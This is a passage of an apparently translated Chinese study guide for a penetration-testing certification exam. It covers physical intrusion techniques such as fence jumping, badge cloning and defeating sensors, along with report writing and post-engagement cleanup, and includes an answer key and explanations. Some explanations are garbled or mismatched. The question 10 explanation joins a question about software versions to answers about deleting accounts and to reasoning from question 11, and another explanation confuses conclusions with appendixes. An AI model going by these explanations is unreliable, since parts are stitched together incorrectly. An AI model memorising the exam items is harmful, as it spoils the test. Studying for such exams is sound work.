### 7. 哪种物理渗透测试实践用于未经授权访问已封锁的区域，从广义上说，有效地描述了完全绕过访问机制的方法？

- **A.** 破门 (Gatecrashing)
- **B.** 越墙 (Fence jumping)
- **C.** 开锁 (Lock picking)
- **D.** 留后门 (Backdooring)

**B**正确。所描述的技术被称为 `fence jumping`（越墙），通常通常涉及爬越围栏或墙壁。与其尝试突破访问点（通常由安全人员守卫、受标志限制或受到严密监控），`fence jumping` 是直接突破屏障。

**A**、**C** 和 **D** 错误。**A** 是错误的，因为 `gatecrashing`（破门）不是与渗透测试或物理渗透测试相关的术语。**C** 是错误的，因为 `lock picking`（开锁）是破解物理锁并获取受保护物品或位置权限的手段。**D** 是错误的，因为 `backdooring`（留后门）是创建秘密访问手段的实践；对于渗透测试而言，这通常表示修改一个受信任的可执行文件，以包含一个绑定或反向 shell，该 shell 会在无意的用户运行可执行文件时建立。

### 8. 搜索目标的垃圾桶，以希望在渗透测试期间发现可能有价值的信息（例如密码、用户名或在为渗透测试建立借口时有帮助的信息），这种做法是什么？

- **A.** 翻垃圾桶 (Dumpster diving)
- **B.** 尾随 (Tailgating)
- **C.** 撞击 (Bumping)
- **D.** 水坑攻击 (Waterholing)

**A**正确。所描述的技术是 `dumpster diving`（翻垃圾桶）。用户写下用户名和密码或其他敏感信息并不罕见，在渗透测试期间寻找可能有价值的信息（如建立借口的信息）是非常常见的。

**B**、**C** 和 **D** 错误。**B** 是错误的，因为 `tailgating`（尾随）是在授权人员合法打开访问点（例如通过刷 `RFID` 标志来解除磁性门锁）后进入设施的技术。**C** 是错误的，因为 `bumping`（撞击）指的是在 `lock picking` 时使用特制的 `bump keys`。**D** 是错误的，因为水坑攻击是使用内部受信任的站点来承载恶意载荷。

### 9. 许多用于环境中深度防御的设备依赖自动检测系统。以下哪种方法是渗透测试人员尝试通过传感器的最佳方式？

- **A.** 使用薄纸板缓慢覆盖传感器
- **B.** 切断传感器的电源
- **C.** 让同伴用 `CO2` 火灭器喷洒渗透人员，以足够屏蔽其热特征
- **D.** 携带泡沫板或其他绝缘材料来阻挡渗透人员的身体

**A**正确，尽管这里需要谨慎。从视线之外屏蔽传感器是可行的，但如果第二个传感器正在观察盲区，也可能导致渗透人员的行为被发现。

**B**、**C** 和 **D** 错误。**B** 是错误的，因为切断电源可能会引起注意。由于阻塞电源的目标是使安全措施失效且不被察觉，引起额外注意对目标不利。**C** 是错误的，因为正如许多小组测试过的样，被 `CO2` 灭火器喷洒后个人辐射的热量减少非常短暂，很可能在个人穿过房间一半时就会触发热传感器。在答案 **D** 中，虽然携带泡沫板或其他绝缘材料可以从热传感器屏蔽热特征，但携带如此大面积材料的不实用性使其从渗透测试人员的角度来看几乎毫无用。

### 10. 哪种渗透测试技术使用高增天线从员工 `RFID` 卡中提取信息，随后可以将其复制到空白卡供渗透人员使用？

- **A.** 标志克隆 (Badge cloning)
- **B.** 重放攻击 (Replay attack)
- **C.** 邪恶孪生 (Evil twin)
- **D.** 窥视 (Shoulder surfing)

**A**正确。所描述的做法是 `badge cloning`（标志克隆）。更高级的标志克隆操作已被观察利用高增天线（根据设施标志使用的频率，可在距离达 10 米处读取），安装在无人机上，在设施外窗户附近飞行，尝试从远处提取标志数据。


 `B`、`C` 和 `D` 是错误的。`B` 错误是因为当攻击者能够在网络流量中嗅探用户的密码哈希值时会发生重放攻击，随后可以使用该值伪造该用户发送请求。`C` 错误是因为“恶意双胞生”攻击通常用于无线渗透测试。`D` 错误是因为窥视攻击（shoulder surfing）是指旨在收集敏感信息的秘密观察个人。这通常指的是偷看计算机显示器或移动设备，但也适用于观察个人输入数字代码或写下敏感信息。

### 11 . 哪种物理安全机制通过使用多组门作为访问控制点，既可以防止未经授权的访问内部边界，又能限制在通过第一道门后试图突破安全防护的个人？

**A.** 工卡扫描器
**B.** 拦截室 (Mantrap)
**C.** 生物识别阅读器
**D.** 弹锁

 `B` 是正确的。描述的机制是拦截室。通过设置多组门，进入速度被减慢到这种程度：电子监控的人员如果发现通过访问点的个人凭据或行为存在异常，可以触发相关门的锁闭，从而有效地将他们困在两道无法打开的门之间。这样就维持了内部围栏的安全，并将可疑或凭据不足的个人锁定，直到安全人员能够处理该情况为止。

 `A`、`C` 和 `D` 是错误的。`A` 和 `C` 错误是因为工卡扫描器和生物识别阅读器都仅作为单一身份验证因子，其基础是用户拥有的物品（访问工卡）或定义用户的特特征（例如，指纹或视网膜扫描）。`D` 错误是因为弹锁（deadbolt）是一种安装在门上的物理锁，必须直接开启才能打开；这与弹簧锁舌（spring lock bolt）形成对比，后者可以通过直接对锁舌施加压力（例如使用信用卡或其他垫片）使弹簧压缩，从而导致锁舌回缩。

### 12 . 哪种物理安全机制为物理渗透测试场景引入了人为因素，并且是在开始物理渗透测试任务之前建立可靠理由（pretext）的众多原因之一？

**A.** 运动检测器
**B.** 保安人员
**C.** 围栏
**D.** 第三方硬件托管

 `B` 是正确的。保安人员是组织物理安全态中无处不在的人为因素。保安通常部署在访问控制点或巡逻边界，作为对犯罪或未经授权进入的威慑，但由于是人，他们和其他人一样容易受到欺骗。一个经过完善并内化的理由可以有效地绕过由保安人员旨在提供的安全防护。

 `A`、`C` 和 `D` 是错误的。`A` 和 `C` 错误是因为运动传感器和围栏是物理屏障，而不是人为因素。`D` 错误是因为第三方硬件托管是一种基于服务的模型，而不是人为因素。

## 第 12 章：报告与沟通

归根结底，渗透测试人员的核心工作是沟通。然而需要注意的是，这并不起始于也结束于渗透测试。在渗透测试期间，测试人员与客户之间存在许多沟通原因，这些应该在参与开始前（pre-engagement）明确定义。本章将重点关注并涵盖以下主题：

- 报告编写与最佳实践
- 任务后活动
- 针对发现漏洞策略建议
- 渗透测试期间沟通的重要性

### 问题

### 1 . 在准备渗透测试报告时，以下哪项*不是*推荐的最佳实践？

**A.** 对发现的结果进行验证和完整记录
**B.** 对测试方法进行详尽的说明
**C.** 忽略 CVSS 3.0 评分低于 3.0 的发现结果
**D.** 减少冗余并精简数据

### 2 . 书面渗透测试报告的哪个部分旨在提供发现结果的高层概述，而不至于陷入过技术细节？

**A.** 结论
**B.** 执行摘要
**C.** 方法论
**D.** 风险评分

### 3 . 下列哪种选择最好定义了信息安全领域的“风险承受能力”（risk appetite）一术？

**A.** 组织承受任何不利于业务资产（如计算机系统或网络）的事件或情况影响的能力或意愿
**B.** 组织对特定威胁对其系统或网络的可能性和影响的理解与接受
**C.** 帮助组织判断渗透测试是否为财务可行业务开支的关键因素
**D.** 组织愿意在其信息系统环境中接受的风险数量和种类

### 4 . 下列哪种是处理和处置渗透测试报告的安全、合理的方法？

**A.** 使用 DES 对文件进行加密，发送给工作说明书中列出的指定接收者，并确定一个次要通信通道来发送解密密码（如果未在工作说明书中提前说明）


### B. 以明文形式发送文件

### C. 使用 `AES-256` 加密文件，将其提供给工作说明（SOW）中详细列出的接收者，并确定一个次要通信通道用于发送解密密码（如果在 SOW 中未事先说明）

### D. 使用 `AES-256` 加密文件，将其上传到贵组织编写的公开可见报告库，并确定一个次要通道用于发送解密密码（如果在 SOW 中未事先说明）

### 5 .**在结束渗透测试时，你查看了笔记，发现你对根 `crontab` 进行了修改，如下所示：



作为项目后清理工作的一部分，最可能需要进行哪项更改？

* **A.** 将第一条目更改为每天运行一次，而不是每周一运行一次
* **B.** 将第四条目更改为重新加载 `apache2` 服务，而不是重启
* **C.** 移除第二条目输出结果的 `/dev/null` 重定向
* **D.** 删除第三条目

### 6 .**渗透测试报告的哪部分详细说明了关于测试测试技术和实践的广泛战略信息，以及指导信息收集、分析和风险评估的决策过程？

* **A.** 执行摘要
* **B.** 方法论
* **C.** 风险评分
* **D.** 附

### 7 .**在交付给客户之前定稿渗透测试报告，应该咨询哪份文档以确保满足所有验收标准？

* **A.** 工作说明 (SOW)
* **B.** 参与规则 (RoE)
* **C.** 不泄密协议 (NDA)
* **D.** 执行摘要

### 8 .**在渗透测试报告中详细说明发现的结果时，以下哪项可以作为证明证据？（选择所有适用项。）

* **A.** 来自自动化安全扫描的人类可读和机器可读格式报告
* **B.** 书面描述
* **C.** [exploit-db.com](http://exploit-db.com) 上的条目
* **D.** 漏洞或漏洞的截图

### 9 .**渗透测试报告的哪部分详细说明了发现的漏洞，解释了它们携带的风险，并为保护相关系统提供了适当的建议？

* **A.** 不泄密协议
* **B.** 发现与修复
* **C.** 方法论
* **D.** 附

### 10 .**在结束渗透测试时，你查看了笔记，发现你对系统的授权用户列表进行了修改，如下所示：



作为项目后清理工作的一部分，最可能需要进行哪项更改？

* **A.** 为出差的客户高管人员开启 `Guest` 账户
* **B.** 为客户的新系统管理员添加用户
* **C.** 删除你为了在系统中实现持久化访问（persistence）而添加的用户账户
* **D.** 将管理员密码更改为之前约好的关键字

### 11 .**在为客户组织编写渗透测试报告时，你注意到业务关键服务器上安装的软件包包版本存在许多差异。如何最好地缓解此问题？

* **A.** 修订用于执行系统更新的客户脚本
* **B.** 对客户系统管理员进行补救培训
* **C.** 实施补丁和变更控制程序
* **D.** 在软件缺陷阻止工作前停止修复

### 12 .**在以下选项中，哪种发现的类型由于使用高权限账户对给定系统进行操作而严重程度*被放大*？

* **A.** SQL 注入
* **B.** 单因子身份认证
* **C.** 共享凭据
* **D.** 不必要的开放服务

### 13 .**在渗透测试期间与客户沟通的一个潜在原因是确保渗透测试者的操作与其他用户区分来。这种概念被称为什么？

* **A.** 冲突消除
* **B.** 影响缓解
* **C.** 碰撞
* **D.** 消除程序

### 14 .**报告的哪部分由对于目的并非的补充材料组成？示例可能 `nmap` 扫描结果、自动化扫描输出或其他。

* **A.** 执行摘要
* **B.** 发现
* **C.** 附
* **D.** 方法论

### 15 .**哪种报告后活动专注于识别组织内的漏洞模式？

* **A.** 汇报/结束会议
* **B.** 项目后清理
* **C.** 参与度调查
* **D.** 重测

### 16 .**在渗透测试期间，你确定测试发现的应用需要更多信息，但你的联系人没有回应。以下哪项描述了最佳行动方案？

* **A.** 咨询参与规则以确定后续联系人
* **B.** 联系组织的某个 Web 开发人员，因为他们负责该应用
* **C.** 联系组织的某个系统管理员，因为应用程序运行在服务器上
* **D.** 直接给组织的首席信息安全官 (CISO) 发邮件

### 17 .**在编写渗透测试报告时，你反复注意到安全最佳实践通常没有执行，并且在扩展方面似乎没有整体性的设计哲学。以下哪项是适当的缓解策略？

* **A.** 花费数十万美元购买新的硬件防火墙并以默认配置运行
* **B.** 寻找具有企业级信息安全和网络架构经验的额外人员
* **C.** 实现日志集中服务以更好地聚合活动数据
* **D.** 加快技术更新周期，使所有资产达到基准配置

### 18 .**以下发现中代表的漏洞多年来一直是 OWASP Top 10 列表排名第一，且通常会导致数据窃取或破坏？

* **A.** 破解的身份认证所有
* **B.** 注入攻击
* **C.** 敏感数据泄露
* **D.** 跨站脚本

### 19 .**在结束渗透测试时，你查看了笔记，发现你在通过 Web 应用获取低权限 Shell 后，在用户的家目录下遗留了一些利用代码，如下所示：



在这种情况下，适当的行动是什么？


- A. 将漏洞脚本加密在 .zip 文件中，并将密码提供给组织的联系人以供其后续审查
- B. 通过运行 `mv getroot.sh .getroot.sh` 将脚本制成“点文件”以隐藏它
- C. 删除脚本以及系统上测试的任何其他数字痕迹
- D. 将其留给组织的安全团队根据其需要进行处理

### 20 .**
在渗透测试期间你发现了多个漏洞。在以下发现中，哪一项最有可能值得在标准会议之外与组织提供的联系人进行升级级联络？

- A. 在一个暴露于互联网的 Web 应用中发现了一个远程代码执行漏洞，且该漏洞的利用代码公开可用。
- B. 公司内网使用的 Web 应用存在 XSS 漏洞。
- C. 用户点击了作为你钓鱼攻击的一部分发送的邮件中的恶意链接。
- D. 公司 Web 应用程序存在目录遍历漏洞，允许未经授权的用户查看 Web 应用程序范围之外的服务器目录内容。

### 21 .**
渗透测试报告中的哪个元素旨在对发现的漏洞以及它们对受影响系统或网络构成的整体威胁提供标准化和规范表示？

- A. 方法论 (Methodology)
- B. 漏洞严重性评分 (Vulnerability severity rating)
- C. 附 (Appendixes)
- D. 执行摘要 (Executive summary)

### 22 .**
渗透测试期间与客户联系人通信的一个潜在镜是：如果测试某个组件导致系统或服务崩溃，导致合法用户和后续测试无法使用，则提供解决方案。哪个术语最能描述这一概念？

- A. 重测 (Retesting)
- B. 冲突检测 (Collision detection)
- C. 修复 (Remediation)
- D. 降级 (De-escalation)

### 23 .**
静态加密和传输中加密是渗透测试中以下哪些发现的最佳建议缓解措施？

- A. 单因素身份验证
- B. SQL 注入
- C. 共享本地管理员凭据
- D. 明文存储的密码

### 24 .**
在目标服务器上获得低权限 Shell 并开始进行权限提升工作后，你发现一个非特权端口上运行的 netcat 进程向一个 IP 地址返回 `/bin/bash` 实例，该 IP 地址不属于你的渗透测试组织或客户所使用的任何地址块。在这种情况下，采取的适当行动是什么？

- A. 对相关 IP 地址开始开源情报（OSINT）收集，以开始识别远程端
- B. 立即停止测试并与客户召开紧急会议
- C. 截图并在编写渗透测试报告时作为发现项
- D. 在提升到 root 后关闭该进程并忽略它，因为它可能只是之前渗透测试的遗留物

### 25 .**
在编写渗透测试报告时，你注意到客户的安全监控似乎围绕着日志聚合驱动的短信告报。日志记录的问题似乎维护得良好，但你进一步注意到你在环境中进行横向移动时没有任何问题，因为你没有遇到任何网络隔离或网络流量控制措施。以下哪些项是缓解这些问题的良好建议？（选择所有适用项）

- A. 聘用额外人员处理告警流并提高响应速度
- B. 部署硬件防火墙以防止网络中不受限制的移动
- C. 实施网络分
- D. 为网络管理员创建每日任务列表，确保问题得到及时解决

### 26 .**
以下哪些发现所代表的漏洞通过在没有业务需求的情况下增加其可行的攻击面，削弱了组织的安全态势？

- A. 明文存储的密码
- B. 单因素身份验证
- C. 不必要的开放服务
- D. SQL 注入

### 27 .**
强制最小密码要求并防止用户选择常见字典文件中找到密码，最能缓解哪种类型的发现？

- A. 共享本地管理员凭据
- B. SQL 注入
- C. 明文存储的密码
- D. 弱密码复杂度

### 28 .**
以下哪个文件将详细说明渗透测试组织应保留提供给客户的报告的时间范围？

- A. 工作说明书 (Statement of work)
- B. 主服务协议 (Master service agreement)
- C. 书面授权 (Written authorization letter)
- D. 非保密协议 (Nondisclosure agreement)

### 29 .**
渗透测试期间与客户联系人通信的潜在原因是为了确保客户理解进展和所采取的行动，并在对客户之前识别为脆弱或容易锁定的系统上开始测试时提醒客户。这种通信最适用于以下哪些项？

- A. 解冲突 (De-confliction)
- B. 里程碑 (Milestone)
- C. 降级 (De-escalation)
- D. 态势感知 (Situational awareness)

### 30 .**
报告交付后的哪项活动侧重于执行客户可能希望或根据工作说明书条款要求的任何额外工作？

- A. 汇报 (Debriefing)
- B. 结束后清理 (Post-engagement cleanup)
- C. 后续行动/重测 (Follow-up actions/retesting)
- D. 客户验收 (Client acceptance)

### 31 .**
哪种发现通过降低破解合法凭据的难度来削弱整体态势？

- A. 单因素身份验证
- B. 共享本地管理员凭据
- C. 不必要的开放服务
- D. SQL 注入

### 32 .**
渗透测试合同通常规定，在开始某些测试阶段时与客户进行通信，例如开始钓鱼攻击或开始测试 Web 应用程序或特定子网。以下哪项最能描述这种通信类型？

- A. 基于里程碑/阶段 (Milestone/stage based)
- B. 解冲突 (De-confliction)
- C. 降级 (De-escalation)
- D. 周报 (Weekly report)

### 33 .**
为什么应该使用并鼓励多因素身份验证而不是单因素方法？（选择所有适用项）

- A. 单因素身份验证降低了访问系统的复杂度。
- B. 多因素身份验证通常是合规指南的要求。
- C. 多因素身份验证增加了用户摩擦，增加了使用弱密码的可能性。
- D. 单因素身份验证允许远程用户更容易地工作。

### 34 .**
用户输入和查询的参数化是哪类漏洞的建议缓解措施？

- A. 弱密码复杂度
- B. 共享本地管理员凭据
- C. SQL 注入
- D. 不必要的开放服务

### 35 .**
以下哪些代表了目标重新排序的示例？（选择所有适用项）

- A. 客户发送一封邮件，礼貌地请求你在同一子网内进行渗透测试时，也扫描他们在服务器上新安装的一个 Web 应用程序


### **B. 详细说明先前约定的条款和条件，这些条款将触发任务说明书（statement of work）或参与规则（rules of engagement）中目标优先级的变更。**

### **C. 被要求在你的任务范围内添加新目标，以准备新宣布的合并及其对组织物流供应链的影响。**

### **D. 客户要求在之前识别出的漏洞系统上投入额外精力，而不是在另一个子网上开始测试。**

### **36.** 哪种发现结果由于使用户密码更容易受到破解或在线暴力破解尝试的威胁，从而而削弱了安全态势？

**A.** 弱弱的密码复杂度要求
**B.** SQL 注入
**C.** 不必要的开放服务
**D.** 共享的本地管理员凭据

### **37.** 通过使用 `LAPS` 或类似的商业产品（如 `SAPM`）对账户凭据进行随机化，是哪类发现结果的最佳缓解策略？

**A.** SQL 注入
**B.** 共享的本地管理员凭据
**C.** 明文存储的密码
**D.** 单因素认证

### **38.** 系统加固是减少可用攻击面的过程，旨在缓解以下哪种发现结果？

**A.** 明文存储的密码
**B.** 不必要的开放服务
**C.** 单因素认证
**D.** 弱的密码复杂度要求

### **39.** 在编写渗透测试报告时，漏洞严重性评分量表的以下哪项是最佳选择？

**A.** 根据从攻击者角度来看其用性，给出一个简单的低、中、高评分
**B.** 根据相关漏洞提供的威胁，采用从一到十个表情包炸弹的量表
**C.** 一个成熟的风险评估模型，如 `DREAD`
**D.** 一种根据对机密性、完整性和可用性关键要素的影响，以规范化和化的方式呈现威胁的工具，例如 `CVSS`

### **40.** 收集发现漏洞的截图是提供或促进以下哪项最简单的方法之一？

**A.** 从任务中学习的教训
**B.** 渗透测试数据的归一化
**C.** 对发现结果的积极证明
**D.** 客户对发现结果的接受

### **41.** 如果客户对提供的渗透测试报告有异议，可能会参考以下哪份文档？

**A.** 签署的授权信
**B.** 保密协议
**C.** 参与规则（Rules of engagement）
**D.** 任务说明书（Statement of work）

### **42.** 哪种发现结果通过简化理论对手的横向移动，以及通过破坏不可否认性概念和对特定用户名下行为责任人的身份验证，从而削弱了组织的安全态势？（选择两项。）

**A.** 共享的本地管理员凭据
**B.** 单因素认证
**C.** 明文存储的密码
**D.** SQL 注入

***

### 快速答案对照

***

**1.** C
**2.** B
**3.** D
**4.** C
**5.** D
**6.** B
**7.** A
**8.** D
**9.** B
**10.** C
**11.** C
**12.** C
**13.** A
**14.** C
**15.** A
**16.** A
**17.** B
**18.** B
**19.** C
**20.** A
**21.** B
**22.** D
**23.** D
**24.** B
**25.** B
**26.** C
**27.** D
**28.** A
**29.** D
**30.** C
**31.** A
**32.** A
**33.** A
**34.** C
**35.** B
**36.** A
**37.** B
**38.** B
**39.** D
**40.** C
**41.** D
**42.** A, C

***

### 深度解析 A

***

**1.** 在编写渗透测试报告时，以下哪项*不是*推荐的最佳实践？

**A.** 对发现的结果进行验证和完整记录
**B.** 对测试方法的稳健说明
**C.** 忽略 `CVSS` 3.0 低于 3.0 的发现
**D.** 减少冗余并精简数据

**C** 是正确的。忽略任何发现都是不符合道德的且违背了渗透测试的目的。无论结果多么微小，过度报告总好——渗透测试人员的工作是提供有关给定网络、子网或系统中发现漏洞的信息。将这些信息转化为行动，或哪些部分需要关注，是客户的责任。

**A** , **B** 和 **D** 是错误的。这些答案都是最佳实践，旨在向提交给客户之前对其进行标准化和归一化。它们还极大地提高了报告的可读性和对客户的整体用性。

**2.** 书面渗透测试报告的哪个部分旨在提供发现结果的高层概述，而不陷入过技术细节？

**A.** 结论
**B.** 执行摘要
**C.** 方法论
**D.** 风险评分

**B** 是正确的。所描述的组件是执行摘要。正如其名称暗示的那样，执行摘要旨在为渗透测试报告提供高空视角，而不依赖于对读者可能毫无意义的技术术语。


 `A`、`C` 和 `D` 是错误的。`A` 是错误的，因为渗透测试报告的结论由补充材料组成，这些材料与报告相关，但对于理解其内容至关重要。结论可能包含用于引导渗透测试的自动化扫描输出附录，或者支持测试结果的图表和图像。`C` 是错误的，因为渗透测试的方法论部分详细说明了所用测试技术和实践的信息，以及指导信息收集、分析和风险评估的决策过程。广而言之，它展示了渗透测试团队对该任务采用的策略方法。`D` 是错误的，因为风险等级是渗透测试中“发现与修复”部分的一个组成部分，旨在以易理解的方式量化漏洞带来的危险。

### 3 . 针对信息安全，以下哪项选择最能准确定义“风险胃口”（risk appetite）这一术语？

**A.** 组织承受任何负面影响其业务资产（如计算机系统或网络）的事件或情况影响的能力或意愿

**B.** 组织对特定威胁对其系统或网络产生可能性和影响的理解与接受

**C.** 帮助组织确定渗透测试是否为财务上支持的业务开支的关键因素

**D.** 组织愿意在其信息系统环境中接受的风险数量和种类

 `D` 是正确的。风险胃口的定义是组织愿意接受的风险数量和种类，在针对渗透测试期间发现的漏洞寻求缓解技术时，预计它将驱动组织的大部分决策。

 `A`、`B` 和 `C` 是错误的。`A` 是错误的，因为它描述的是组织对影响的容忍度（tolerance）。容忍度通常由成本规避或环境特性等因素驱动，例如组织严格依赖于不再由原始开发者支持的旧软件。`B` 是错误的，因为它描述的是风险接受（risk acceptance）的概念而非风险胃口。风险接受和对影响的容忍度与风险胃口的概念密切相关；特别是风险胃口和对影响的容忍度通常有助于推动有关风险接受的业务决策。`C` 是错误的，因为它描述的是组织的预算。与其他所有业务开支一样，在起草和签署合同之前，渗透测试会根据底底进行权衡。

### 4 . 以下哪种方法是处理和处置渗透测试报告的安全、合理的方法？

**A.** 使用 `DES` 对文件加密，发送给工作说明书（SOW）中详细列出的接收者，并确定一个次要通信通道来发送解密密码（如果在 SOW 中未事先声明）。

**B.** 以明文形式发送文件

**C.** 使用 `AES-256` 对文件加密，提供给工作说明书（SOW）中详细列出的接收者，并确定一个次要通信通道来发送解密密码（如果在 SOW 中未事先声明）

**D.** 使用 `AES-256` 对文件加密，将其上传到你们编写的公开可见报告库中，并确定一个次要通道来发送解密密码（如果在 SOW 中未事先声明）

 `C` 是正确的。在所给选项中，处理和处置渗透测试报告的最佳解决方案是使用 `AES-256` 对文件加密，提供给工作说明书（SOW）中详细列出的接收者，并确定一个次要通信通道来发送解密密码（如果在 SOW 中未事先声明）。

 `A`、`B` 和 `D` 是错误的。`A` 是错误的，因为 `DES` 实际上是一个失效的加密协议，使其无法充分保护加密存档的内容。`B` 是错误的，因为在任何情况下都不应以明文格式传播渗透测试报告。`D` 是错误的，因为让渗透测试报告公开可用（无论是否加密）不仅是不符合道德的，而且几乎会被解释为违反了保密协议。

### 5 . 在结束渗透测试时，你查看笔记时发现你对根 crontab 进行了如下所示的更改：

```

```

作为任务后清理的一部分，最可能需要进行什么更改？

**A.** 将第一条更改为每天运行，而不是每周一运行

**B.** 将第四条更改为重新加载 `apache2` 服务，而不是重启

**C.** 移除第二条中输出的 `/dev/null` 重定向

**D.** 删除第三条

 `D` 是正确的。第三条调用了返回到 `10.1.2.2` 攻击系统的反向 shell（reverse shell）。良好的渗透测试伦理要求我们消除任务中易于利用的痕迹，移除可能引入的任何漏洞。根用户 crontab 中的反向 shell 是明显的渗透测试片段，因此应该被删除。

 `A`、`B` 和 `C` 是错误的。这些选项中都不包含渗透测试人员典型的命令，这有助于将它们识别为合法的用户提供的。因此，这些应该保持原样。

### 6 . 渗透测试报告的哪部分详细说明了关于所测试技术和实践的广泛策略信息，以及指导信息收集、分析和风险评估的决策过程？

**A.** 执行摘要

**B.** 方法论

**C.** 风险等级

**D.** 附录

 `B` 是正确的。渗透测试报告的方法论部分详细说明了所用测试技术和实践的信息，以及指导信息收集、分析和风险评估的决策过程，展示了渗透测试团队对该任务采用的策略方法。

 `A`、`C` 和 `D` 是错误的。`A` 是错误的，因为文字渗透测试报告的执行摘要旨在提供结果的高级概述，而不陷入技术细节。`C` 是错误的，因为风险等级是渗透测试“发现与修复”部分的一个组成部分，旨在易理解的方式量化漏洞带来的危险。`D` 是错误的，因为附录是渗透测试报告的最后部分，由补充材料组成，这些材料与报告相关，但对于理解其内容至关重要。

### 7 . 在向客户交付渗透测试报告之前，应该咨询哪份文档以确保符合所有验收标准？

**A.** 工作说明书（Statement of work）

**B.** 参与规则（Rules of engagement）

**C.** 保密协议（Nondisclosure agreement）

**D.** 执行摘要

 `A` 是正确的。验收标准详细列在渗透测试的工作说明书中。


**B**, **C** 和 **D** 是错误的。**B** 是错误的，因为交接规则（rules of engagement）涵盖了渗透测试期间需要遵守的指南和限制。**C** 是错误的，因为渗透测试的保密协议确保了敏感企业信息免受未经授权的泄露或传播。**D** 是错误的，因为执行摘要是渗透测试测试报告的一个组成部分，旨在提供高层概述，避免深陷可能会困扰或排斥非技术读者（如高管人员）的技术知识中。

### 8 .

在渗透测试报告中详细说明发现的结论时，以下哪项可以作为证明的证据？（选择所有适用）

**A.** 来自自动化安全扫描器的人类可读和机器可读格式报告
**B.** 书面描述
**C.** [exploit-db.com](http://exploit-db.com) 上的条目
**D.** 漏洞或利用的截图

**D** 是正确的。显示漏洞或正在运行利用程序的截图是提供漏洞证明的金标准。在提供结果证明时，用硬性证据支持自己的言论是一个良好的最佳实践。

**A**, **B** 和 **C** 是错误的。**A** 是错误的，因为自动化扫描器可能会产生假阳性，绝不应从表面上接受；扫描器识别出的任何内容都应该经过测试和验证。**B** 是错误的，因为虽然书面描述有助于交流漏洞的性质及其代表的潜在威胁，但描述本身并不提供漏洞的证明。**C** 是错误的，因为虽然来自 [exploit-db.com](http://exploit-db.com) 或其他来源的利用代码对于详细说明漏洞利用的易性很有用，但它们不能证明漏洞的存在。

### 9 .

渗透测试报告的哪一个部分详细说明了发现的漏洞，解释了它们携带的风险，并为安全相关系统提供了适当的建议？

**A.** 保密协议
**B.** 结论与修复 (Findings and remediation)
**C.** 方法论
**D.** 附录

**B** 是正确的。渗透测试报告的结论与修复部分详细说明了任何发现的漏洞，并提供了缓解这些漏洞的建议。

**A**, **C** 和 **D** 是错误的。**A** 是错误的，因为保密协议是约前文档，确保敏感企业信息免受未经授权的泄露或传播。**C** 是错误的，因为渗透测试报告的方法部分提供了有关使用的测试技术和实践的详细信息，以及在渗透测试过程中指导信息收集、分析和风险评估的决策过程。**D** 是错误的，因为附录是渗透测试报告的最后部分，由与报告相关但对于目的并非重要的补充材料组成。

### 10 .

在结束渗透测试时，你查看了笔记，发现业务关键系统上安装的软件版本存在许多差异。作为清理工作的一部分，最可能需要进行什么更改？


**A.** 访客账户
**B.** 添加共享本地管理员凭据
**C.** 删除用户账户
**D.** 更改客户人员的密码

**C** 是正确的。在所描述的情况下，应该删除用户账户。根据经验，如果渗透测试期间所做的更改会使系统变得脆弱，则应尽可能撤销，因为它们可以提供价值信息。适当实施补丁和变更管理可以帮助在工具或资源突然出现问题时提供进一步的信息。

**A**, **B** 和 **D** 是错误的。**A** 是错误的，因为如果不对服务器进行有针对性的打补丁，修订用于更新的脚本将没有任何益处。这是漏洞的技术缓解措施示例。**B** 是错误的，因为补救培训可能对管理团队产生一些收益，但无法解决对服务器补丁缺乏控制的根本问题。这是漏洞的人员缓解措施示例。

### 11 .

在为客户组织编写渗透测试报告期间，你注意到服务器上安装的软件版本存在许多差异。此问题如何才能得到缓解？

**A.** 修订用于执行更新的客户脚本
**B.** 针对客户系统的补救培训
**C.** 实施补丁和变更控制程序
**D.** 在软件逻辑阻止工作之前停止对系统进行补丁

**C** 是正确的。这是一个程序化建议能够最好缓解环境中漏洞或缺陷的情况示例。这里的最佳建议是实施补丁和变更控制程序，这将有助于确保需要时对所有系统进行更改，同时最大限度地减少业务中断并对这些更改进行跟踪。补丁管理在正确实施时对组织安全是净收益的，因为有效部署关键包更新可以重置软件版本发布与针对该版本的漏洞开发之间的时间间隔。

### 12 .

在以下选项中，哪种类型的发现由于无法确认使用高权限账户在给定系统上执行操作的来源，导致其严重性放大最多？这实际上破坏了特定用户的不可否认性概念？

